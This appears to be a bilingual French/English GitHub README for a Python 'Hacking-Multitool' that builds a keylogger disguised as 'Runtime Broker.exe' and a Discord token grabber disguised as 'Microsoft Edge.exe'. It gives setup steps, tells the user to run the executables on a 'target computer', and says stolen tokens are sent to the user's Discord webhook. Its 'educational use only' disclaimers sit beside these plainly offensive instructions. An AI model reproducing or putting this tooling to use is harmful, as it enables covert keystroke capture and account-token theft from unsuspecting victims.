 # 🛠️ Hacking-Multitool

![Python](https://img.shields.io/badge/Python-3.8%2B-blue?logo=python)
![Educational](https://img.shields.io/badge/For%20Educational%20Use%20Only-orange)
![Auto-Install](https://img.shields.io/badge/Auto--Install-Yes-brightgreen)

---

## 📑 Sommaire / Table of Contents

- [🇫🇷 Français](#-français)
  - [❓ Qu'est-ce que c'est ?](#-quest-ce-que-cest-)
  - [✅ Prérequis](#-prérequis)
  - [🚀 Installation](#-installation)
  - [🕹️ Utilisation](#-utilisation)
    - [⌨️ Keylogger](#-keylogger)
    - [🕵️‍♂️ Discord Token Grabber](#-discord-token-grabber)
  - [🎓 Apprentissage](#-profite-de-ton-apprentissage-en-cybersécurité-)
- [🇬🇧 English](#-english)
  - [❓ What is it?](#-what-is-it)
  - [✅ Requirements](#-requirements)
  - [🚀 Installation](#-installation-1)
  - [🕹️ Usage](#-usage)
    - [⌨️ Keylogger](#-keylogger-1)
    - [🕵️‍♂️ Discord Token Grabber](#-discord-token-grabber-1)
  - [🎓 Learning](#-enjoy-your-cybersecurity-learning)

---

## 🇫🇷 Français

> **⚠️ Ce projet est uniquement à but éducatif. N'utilisez pas cet outil à des fins illégales !**

### ❓ Qu'est-ce que c'est ?

Notre Multitool est un outil de cybersécurité simple, basé sur Python.  
**⚠️ Ce programme n'est absolument pas sécurisé. Les autorités peuvent vous retrouver en quelques secondes. Utilisez-le à vos risques et périls.**  
Ce code n'a pas été créé pour le piratage, **UNIQUEMENT POUR L'APPRENTISSAGE**.

---

### ✅ Prérequis

🎉 **Bonne nouvelle ! Aucun prérequis !**  
Tout est installé automatiquement lors du setup.

---

### 🚀 Installation

1️⃣ Télécharge et extrait les fichiers dans le dossier de ton choix.  
2️⃣ Ouvre le terminal (cmd) et lance :  
```bash
python setup.py
```
3️⃣ Suis les instructions à l'écran.  
4️⃣ Récupère l'exécutable généré et utilise-le selon tes besoins sur l'ordinateur cible.

> **❗ N'UTILISE PAS CET OUTIL POUR LE PIRATAGE !**

---

### 🕹️ Utilisation

#### ⌨️ Keylogger

1. Exécute le programme sur l'ordinateur cible. (Le fichier est caché sous le nom **"Runtime Broker.exe"**)
2. Pour arrêter le keylogger, termine le processus **Runtime Broker.exe** dans le gestionnaire des tâches (attention à fermer le bon !)

---

#### 🕵️‍♂️ Discord Token Grabber

1. Exécute sur l'ordinateur cible avec la commande suivante :
```bash
Microsoft Edge.exe VOTRE_WEBHOOK_URL
```
2. Les tokens trouvés seront envoyés sur votre Discord via le webhook.

---

### 🎓 Profite de ton apprentissage en cybersécurité !

---

## 🇬🇧 English

> **⚠️ This project is for educational purposes only. Do not use this tool for illegal activities!**

### ❓ What is it?

Our Multitool is a simple cybersecurity tool based on Python.  
**⚠️ This program is absolutely not secure. Authorities can find you in seconds. Use at your own risk.**  
This code was not created for hacking, **FOR LEARNING PURPOSES ONLY**.

---

### ✅ Requirements

🎉 **Good news! No requirements!**  
Everything is installed automatically during setup.

---

### 🚀 Installation

1️⃣ Download and extract the files to any folder you want.  
2️⃣ Open the terminal (cmd) and run:  
```bash
python setup.py
```
3️⃣ Follow the on-screen instructions.  
4️⃣ Retrieve the generated executable and use it as needed on the target computer.

> **❗ DO NOT USE THIS TOOL FOR HACKING!**

---

### 🕹️ Usage

#### ⌨️ Keylogger

1. Run the program on the target computer. (The file is hidden under the name **"Runtime Broker.exe"**)
2. To stop the keylogger, end the **Runtime Broker.exe** process in the task manager (be careful to close the right one!)

---

#### 🕵️‍♂️ Discord Token Grabber

1. Run on the target computer with the following command:
```bash
Microsoft Edge.exe YOUR_WEBHOOK_URL
```
2. The found tokens will be sent to your Discord via the webhook.

---

### 🎓 Enjoy your cybersecurity learning!

---
